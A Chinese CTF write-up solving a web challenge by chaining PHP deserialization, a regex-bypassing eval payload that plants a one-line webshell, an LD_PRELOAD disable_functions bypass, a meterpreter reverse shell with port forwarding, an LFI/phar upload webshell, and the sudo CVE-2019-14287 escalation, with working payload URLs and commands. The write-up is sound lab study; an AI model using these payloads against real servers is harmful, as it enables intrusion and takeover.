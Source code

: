 # CNSS Recruit 2019 Web Boss题 WriteUp


## 0x00 ~~吐槽~~思考 for [BOSS] Get Me Inside
这道题肝的是真的爽，从 ddl 前一天晚上开始，搞到 ddl 当天凌晨四点多~~（原来我的肝这么好）~~
这是一道涉及面广泛的题，考虑到了实战的一些情况，考察多方面的知识，是一道不可多得的好题（即使如此，我依旧想暴打各位出题人emmm）

## 0x01 反序列化漏洞
打开这道题首先就是一堆 PHP 源码，直接就摆上了一大堆 `class` ，先暂时略过这些 `class` ，继续向下看，我们会发现在源码的末尾有这么一段
```php
<?php
$a = $_GET['p'];
unserialize($a);
if($flag === 1){
    ...
}
?>
```
结合上边的一大堆 `class` ，考虑利用反序列化漏洞，层层递进，最终将变量 `flag` 的值设为 `1` 即可，故构造以下 payload （这里可以直接复制粘贴，然后自己写一个脚本把需要的变量序列化一下即可）
```url
/?p=O:4:"Deep":2:{s:2:"m1";O:4:"Dark":2:{s:2:"m1";O:7:"Fantasy":2:{s:2:"m1";O:5:"Happy":2:{s:2:"m1";O:8:"New_year":2:{s:2:"s1";O:21:"Copied_from_somewhere":0:{}s:2:"s2";N;}s:2:"m2";N;}s:2:"m2";N;}s:2:"m2";N;}s:2:"m2";N;}
```
输入后发现在未提供参数 `c` 的情况下输出了 `?` ，可知成功将 `flag` 设为 `1` 

## 0x02 get shell
之后查看最后的一段源码
```php
<?php
if(!isset($_GET['c'])){
    die("?");
}
$code = $_GET['c'];
 if(strlen($code)>37){
    die("这么长会死的!");
}
if(preg_match("/[A-Za-z0-9^!]+/",$code)){
    die("Catch you!");
}
@eval($code);
?>
```
考虑通过 `eval` 这个函数调用其他函数拿到系统 shell ，然而首先要面对的问题就是这个可恶的正则，你注入的代码中不能包含任何字母、数字和 `^` ` !` 两种符号
这里可以使用 PHP 的另一种函数调用方式 `(函数名)(参数)` ，然后函数名和参数都采用按位取反的方式，通过url编码和 `~` 运算符调用函数
然后我们非常高兴的执行了 `system('whoami')` ，但是，什么都没有发生，看一下 `phpinfo()` ，发现几乎所有能拿到系统shell的函数都在 `disable_functions` 里，然后考虑绕过 `disable_functions` 的方法，经过多方查找，最后选择了通过 `LD_PRELOAD` 的方式绕过，但这种方法需要上传文件，所以继续构造 payload
```url
/?p=O:4:%22Deep%22:2:{s:2:%22m1%22;O:4:%22Dark%22:2:{s:2:%22m1%22;O:7:%22Fantasy%22:2:{s:2:%22m1%22;O:5:%22Happy%22:2:{s:2:%22m1%22;O:8:%22New_year%22:2:{s:2:%22s1%22;O:21:%22Copied_from_somewhere%22:0:{}s:2:%22s2%22;N;}s:2:%22m2%22;N;}s:2:%22m2%22;N;}s:2:%22m2%22;N;}s:2:%22m2%22;N;}&c=(~%9e%8c%8c%9a%8d%8b)(${~%a0%b8%ba%ab}[%aa]);&%aa=eval($_POST['aaa']);
```
这里我们采用另一个可以执行 PHP 语句的函数 `assert` ，但由于 `assert` 一次只能执行一条语句，我们可以在其中再加入一个 `eval` ，这里便出现了我们熟悉的一句话木马，二话不说扔到蚁剑里，发现 shell 依然无法使用，但可以读取和上传文件（这里是因为读取和上传文件可以用 PHP 自带的其它函数实现，所以不需要拿到 shell 就可以），由于 hint 告诉我们对 `html` 目录没有写权限，故考虑另一个目录 `/tmp` ，测试后发现有写权限，故可以上传构造的 `so` 文件进行进一步操作（但当时服务器里有不知哪位好心的大哥留下的 `so` 文件，我就直接拿来用了，后来知道那个文件[出自此处](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)，这个构造的十分巧妙，使用了另一个环境变量，配合 PHP 实现一次编译即可执行任意命令，无需每次修改命令都要重新编译，学到了)，然后 `include` 一下配套的 PHP 文件，按照 PHP 里的参数配置一下，成功拿到系统shell

## 0x03 内网穿透
由于 hint 给出了 `LAN & ARP` ，这里考虑 flag 可能存在于另一台服务器（记为服务器2）上，用 `arp -a` 看一下，发现有这么一个 IP 与众不同
```
getmeinside_inner_1.getmeinside_lan (172.16.233.233) at 02:42:ac:10:e9:e9 [ether] on eth0
```
`curl` 看一下，发现有一个网页可以上传文件，考虑将服务器2的80端口转发出来，可以采用 msf 的 `meterpreter` 模块（这里需要自己有一个公网 IP ，我选择开了一个 VPS ，一般来说再将 VPS 端口转发到本地比较安全，但我为了方便直接在 VPS 上装了个 msf ，毕竟用完即删）
先用 `msfvenom` 做个木马，然后用蚁剑上传到服务器1，给一下执行权限，接下来在 `msfconsole` 中监听木马设置的端口，然后再服务器1中运行木马，拿到 `meterpreter shell`，然后用 `portfwd` 进行端口转发，打开转发到服务器上的端口，成功打开服务器2上的网页

## 0x04 get shell **Again**
打开页面，发现似乎可以上传什么东西，观察 url 有 `/?file=index` ，点击上传后 url 变化但页面并未变化，尝试去掉最后的 `.php` ，发现成功打开上传页面，可以判断 `file` 是一个 `include` 漏洞，尝试 `php伪协议` 读取源码，构造以下 payload
```url
/?file=php://filter/read=convert.base64-encode/resource=upload
```
成功读到 `upload.php` 的源码（我第一次做的时候的确读到了源码，但再次尝试却发现读不到了QAQ）
观察上传页面，发现并无表单可以提交，就在本地写一个表单提交到服务器2，尝试发现只能上传 png 文件，由于 hint 指出了 `Phar` ，于是写一个一句话木马，打包成 `zip`（注意打包时选择不压缩），然后将拓展名改为 `png` ，成功上传，得到上传后的文件名，构造以下 payload（注意最后的木马名不需要 `.php`)
```url
/?file=phar://pic/文件名/木马名
```
看一下 `phpinfo` ，发现拿 shell 的函数并没有被禁用，直接拿到系统shell（这里我想再扔到蚁剑里，但莫名其妙连不上，就手动操作了）

## 0x05 读取 flag 文件
根据 hint ，只有 root 用户可以读取 flag 文件，尝试 `sudo cat`，发现并不能读取，`sudo -l` 看一下权限，发现权限设置如下
```
(ALL,!root) NOPASSWD:/bin/cat
```
直接使用 `sudo` 无法使用 `cat` ，这里我探索了接近两小时终于搜到了一个神奇的漏洞 `CVE-2019-14287` ，漏洞具体信息可以参考我好不容易搜到的的[这个网站](https://www.agesec.com/8369.html)
根据这个漏洞执行以下命令
```bash
sudo -u#-1 /bin/cat /flag
```
成功获得 flag！！！（泪目）
